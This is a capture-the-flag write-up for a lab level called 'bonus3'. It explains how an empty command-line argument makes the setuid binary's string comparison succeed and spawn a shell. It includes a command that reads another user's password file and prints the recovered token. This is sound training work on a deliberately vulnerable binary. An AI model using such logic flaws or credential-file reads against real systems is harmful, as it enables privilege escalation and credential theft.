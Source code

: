 # bonus3

## Header

```bash
ssh bonus3@192.168.64.9 -p 4242
...
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   /home/user/bonus3/bonus3
```

<hr>

## Solution

Look at these lines:
```c
  ...
  if (!strcmp(buf, av[1])) {
        execl("/bin/sh", "sh", NULL);
  ...
```

Here, we understand that `/bin/sh` will be executed only if `buf` will be equal to `av[1]`.
As for `buf`, it is filled with the token of `end` user.
```c
    file = fopen("/home/user/end/.pass", "r");
    ...
    fread(buf, 1, 66, file);
    buf[65] = '\0';

    *(buf + atoi(av[1])) = '\0';
    
    fread(&buf[66], 1, 65, file);
```

To solve this puzzle, we need to pass empty string as a parameter, that will be parsed by `atoi` as 0 and terminated null will be placed at the beginning of the `buf` that made `buf` equal to empty string.

```bash
./bonus3 ""
$ cat /home/user/end/.pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
```
## References
